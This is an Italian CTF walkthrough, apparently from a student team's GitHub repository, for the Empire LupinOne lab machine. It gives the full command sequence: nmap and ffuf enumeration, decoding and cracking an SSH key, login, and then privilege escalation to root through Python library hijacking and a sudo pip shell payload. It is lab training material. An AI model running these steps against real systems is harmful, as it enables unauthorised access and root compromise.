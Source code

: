 # 🛡️ CyberCerberus: Seconda CTF Bonus - BuildWeek2

Benvenuto nel walkthrough professionale del CTF **Empire LupinOne**! Questo documento rappresenta il lavoro collaborativo del **TeamCyberCerberus**, che ha unito le proprie competenze per completare con successo il challenge. 💻

## [🏠 HOME](./README.MD)

---

## 🔍 **Pentesting Methodology**

### 1️⃣ **Network Scanning**
- **Identificazione dell'indirizzo IP target**:
  ```bash
  sudo nmap -p- -Pn -O -sV -sC -sS 192.168.1.7
  ```
- **Risultati**:
  - **Porta 80 (HTTP)**: Server web attivo. 

---

### 2️⃣ **Enumeration**

#### 🧕️‍♂️ Analisi del sito web
- Accesso alla porta 80 per esplorare il contenuto.
- Individuazione di `/robots.txt` che suggerisce una directory nascosta: `/~myfiles`.

#### ⚡ Fuzzing con FFUF
- Ricerca di directory nascoste:
  ```bash
  ffuf -u http://192.168.1.7/~FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -c
  ```
- Directory scoperta: `/~secret`.

#### 🔎 Analisi e scoperte aggiuntive
- Nel sorgente della pagina `/~myfiles`, abbiamo trovato un commento motivazionale:
  ```
  <!-- you can do it, keep trying -->
  ```
  Questo suggerimento ci ha spinti a continuare l'enumerazione per trovare risorse nascoste.

---

### 3️⃣ **Exploitation**

#### 🔐 Scoperta e decifrazione di chiavi SSH
- File SSH privato individuato in `/~secret`.
- Ricerca di file aggiuntivi con FFUF:
  ```bash
  ffuf -u http://192.168.1.7/~secret/.FUZZ -e .py,.java,.php,.dart,.rar,.zip,.txt,.html -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -c -ic -fc 403
  ```
- File trovato: `.mysecret.txt`.

#### 🪦 Decodifica della chiave RSA
- Contenuto del file `.mysecret.txt`:
  ```text
  5HueCGU8rMjxEXxiPuD5BDu3fjK4EM2sf57aXbVZ5q7Z3zKJMYp
  ```
- Dopo un'analisi del contenuto, abbiamo dedotto che si trattava di una **chiave RSA codificata in Base58**. Per decodificarla, abbiamo utilizzato un decoder online come [Browserling](https://www.browserling.com/tools/base58-decode) oppure uno script Python:
  ```python
  import base58

  encoded_key = "5HueCGU8rMjxEXxiPuD5BDu3fjK4EM2sf57aXbVZ5q7Z3zKJMYp"
  decoded_key = base58.b58decode(encoded_key).decode('utf-8')
  print(decoded_key)
  ```
- Una volta decodificata, la chiave è stata salvata in un file chiamato `victim_id_rsa` con i permessi corretti:
  ```bash
  chmod 600 victim_id_rsa
  ```

#### 🛠️ Conversione e brute force della chiave SSH
- Conversione della chiave per John the Ripper:
  ```bash
  ssh2john victim_id_rsa > hash_password
  ```
- Brute force con John the Ripper:
  ```bash
  john --wordlist=/usr/share/wordlists/fasttrack.txt hash_password
  ```
  - **Password trovata**: `P@55w0rd!`

#### 🚀 Accesso SSH
- Connessione alla macchina target:
  ```bash
  ssh -i victim_id_rsa icex64@192.168.1.7
  ```
- **Flag utente**: `user.txt` 🎉.

---

### 4️⃣ **Privilege Escalation**

#### 🦑‍🔧 Verifica dei privilegi di `sudo`
- Analisi dei permessi:
  ```bash
  sudo -l
  ```
  - Individuato file vulnerabile: `/home/arsene/heist.py`.

#### 🔍 Analisi con linpeas
- Esecuzione del tool:
  ```bash
  python -m SimpleHTTPServer 80
  ```
  - Su Kali Linux, abbiamo avviato un server HTTP e trasferito `linpeas` alla macchina target:
    ```bash
    wget 192.168.1.3/linpeas.sh
    chmod 777 linpeas.sh
    ./linpeas.sh
    ```
- Abbiamo identificato la posizione del file Python `webbrowser.py`.

#### 🐍 Escalation con script Python
- Modifica di `webbrowser.py` per eseguire `/bin/bash`:
  ```python
  os.system("/bin/bash")
  ```
- Esecuzione del file modificato:
  ```bash
  sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py
  ```
  - Accesso come utente `arsene`.

#### 📦 Escalation finale con pip
- Esecuzione exploit di pip:
  ```bash
  TF=$(mktemp -d)
  echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
  sudo pip install $TF
  ```
  - **Accesso root** 🎉.

---

## 🏆 **Root Flag**

- Lettura del flag root:
  ```bash
  cat /root/root.txt
  ```

---

## 🌟 **Conclusione**

Il CTF **Empire LupinOne** è stato completato con successo grazie alla sinergia del **TeamCyberCerberus**! 🔒 Questo walkthrough evidenzia l'importanza di strumenti come **nmap**, **FFUF**, **linpeas**, e tecniche di privilege escalation come **pip** e Python library hijacking. 💻

Grazie per aver seguito questa guida e per il supporto al nostro team! 💪

## [🏠 HOME](./README.MD)

